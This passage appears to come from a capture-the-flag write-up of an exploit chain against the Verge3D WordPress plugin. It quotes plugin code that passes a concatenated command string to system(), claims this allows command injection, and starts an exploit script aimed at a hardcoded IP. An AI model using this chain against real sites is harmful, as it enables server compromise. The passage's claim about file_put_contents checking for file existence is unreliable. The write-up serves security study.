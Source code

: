 This allows us to further exploit the system by bypassing some restriction in **Verge3D**

### Step 5: **Code Injection in Verge3D**

In **Verge3D**, there's a function called `v3d_terminal`, which is equivalent to executing system commands:

```php
function v3d_terminal($command) {
    $output = '';
    if (function_exists('system')) {
        ob_start();
        system($command, $return_var);
        $output = ob_get_contents();
        ob_end_clean();
    }
}

```

This function is called by `v3d_gen_email_attachments`:

```php
function v3d_gen_email_attachments($order, $order_id, $gen_custom, $gen_pdftypes=array()) {
    ...SNIP...
    $pdf_html = $temp_dir.wp_unique_filename($temp_dir, uniqid('v3d_email_att').'.html');
    $pdf = v3d_get_attachments_tmp_dir($attachments).$pdftype.'.pdf';
    $success = file_put_contents($pdf_html, $pdf_html_text);

    if ($success) {
        v3d_terminal($chrome_path.' --headless --disable-gpu --print-to-pdf='.$pdf.' '.$pdf_html);
        if (is_file($pdf)) {
            $attachments[] = $pdf;
        }
    }
    @unlink($pdf_html);
}

```

The `file_put_contents` function checks if the file exists before executing the command via `v3d_terminal`, allowing for potential code injection. By ensuring our uploaded file exists, we can exploit this check and execute arbitrary commands.

We use the `manage_verge3d` capability to bypass access restrictions in Verge3D settings, which is crucial for triggering this injection.

Here's my final payload, which demonstrates the entire process:

```python
import base64
import json
import os
import httpx
import asyncio
import re
from subprocess import check_output

# URL = "http://0.0.0.0:9099"
URL = "http://100.25.255.51:9099"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    ...
    async def get_elementor_nonce(self, post_id):
```